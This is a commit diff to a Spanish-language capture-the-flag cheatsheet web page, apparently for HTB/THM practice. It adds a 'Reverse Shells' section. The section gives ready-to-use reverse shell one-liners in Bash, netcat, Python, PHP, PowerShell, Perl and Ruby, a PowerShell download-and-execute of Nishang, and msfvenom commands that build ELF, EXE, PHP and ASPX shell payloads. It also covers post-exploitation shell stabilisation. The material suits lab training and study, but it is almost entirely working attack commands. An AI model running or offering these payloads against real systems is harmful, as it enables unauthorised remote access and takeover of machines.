

Before and after one commit to Juanizxcvbn/particular, a plain HTML site: page cheatsheets/index.html in a window 1280 px wide. Shown: the part 91-800 px from the top of the page, without its empty margins (178-1101 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add reverse shell techniques to cheatsheet

```diff
--- a/cheatsheets/index.html
+++ b/cheatsheets/index.html
@@ -354,6 +354,54 @@ const DATA = [
     ]
   },
   {
+    id:"revshell", title:"🔁 Reverse Shells",
+    sections:[
+      {h:"Listener (atacante)", blocks:[
+        {p:"netcat — el más usado", code:`nc -lvnp <PUERTO>`},
+        {p:"Si no hay netcat, con socat o bash /dev/tcp", code:`socat -d -d TCP-LISTEN:<PUERTO> STDOUT`}
+      ]},
+      {h:"Bash", blocks:[
+        {p:"Bash -i (clásico)", code:`bash -i >& /dev/tcp/<IP>/<PUERTO> 0>&1`},
+        {p:"Bash sin -i (si el target bloquea shells interactivas)", code:`0<&196;exec 196<>/dev/tcp/<IP>/<PUERTO>; sh <&196 >&196 2>&196`},
+        {p:"/bin/sh (si no hay bash)", code:`sh -i >& /dev/tcp/<IP>/<PUERTO> 0>&1`}
+      ]},
+      {h:"Netcat", blocks:[
+        {p:"nc clásico", code:`nc -e /bin/sh <IP> <PUERTO>`},
+        {p:"nc sin -e (versiones que no lo soportan, ej. OpenBSD)", code:`rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PUERTO> >/tmp/f`},
+        {p:"ncat con shell cifrada (SSL)", code:`ncat --ssl <IP> <PUERTO> -e /bin/sh`}
+      ]},
+      {h:"Python", blocks:[
+        {p:"Python3 — Linux", code:`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'`},
+        {p:"Python2 (sistemas viejos)", code:`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`}
+      ]},
+      {h:"PHP", blocks:[
+        {p:"PHP one-liner (webshells, LFI a RCE)", code:`php -r '$sock=fsockopen("<IP>",<PUERTO>);exec("/bin/sh -i <&3 >&3 2>&3");'`},
+        {p:"Variante con proc_open (si fsockopen está deshabilitado)", code:`<?php $sock=fsockopen("<IP>",<PUERTO>);$proc=proc_open("/bin/sh -i",array(0=>$sock,1=>$sock,2=>$sock),$pipes); ?>`}
+      ]},
+      {h:"PowerShell (Windows)", blocks:[
+        {p:"One-liner clásico (PowerShell TCP client)", code:`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PUERTO>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`},
+        {p:"Nishang (Invoke-PowerShellTcp) — más estable", code:`IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1')\nInvoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PUERTO>`}
+      ]},
+      {h:"Perl / Ruby", blocks:[
+        {p:"Perl", code:`perl -e 'use Socket;$i="<IP>";$p=<PUERTO>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`},
+        {p:"Ruby", code:`ruby -rsocket -e'f=TCPSocket.open("<IP>",<PUERTO>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`}
+      ]},
+      {h:"msfvenom — generar payloads/binarios", blocks:[
+        {p:"Linux ELF", code:`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PUERTO> -f elf -o shell.elf`},
+        {p:"Windows EXE", code:`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PUERTO> -f exe -o shell.exe`},
+        {p:"PHP (webshell para upload)", code:`msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PUERTO> -f raw -o shell.php`},
+        {p:"ASPX (IIS)", code:`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PUERTO> -f aspx -o shell.aspx`}
+      ]},
+      {h:"Estabilizar la shell (post-explotación)", blocks:[
+        {p:"Shell de Linux → TTY completa (pty + stty)", code:`python3 -c 'import pty; pty.spawn("/bin/bash")'\n# luego Ctrl+Z en tu terminal:\nstty raw -echo; fg\n# y dentro de la shell:\nexport TERM=xterm\nstty rows <filas> columns <columnas>`},
+        {p:"Si no hay python, con script", code:`script /dev/null -c bash`}
+      ]},
+      {h:"Generador de payloads online (referencia rápida)", blocks:[
+        {p:"Para no tipear a mano — pegar IP/puerto y copiar", code:`https://www.revshells.com/`}
+      ]}
+    ]
+  },
+  {
     id:"flags", title:"🚩 Buscar Flags (HTB / THM)",
     sections:[
       {h:"Ubicaciones típicas", blocks:[
```
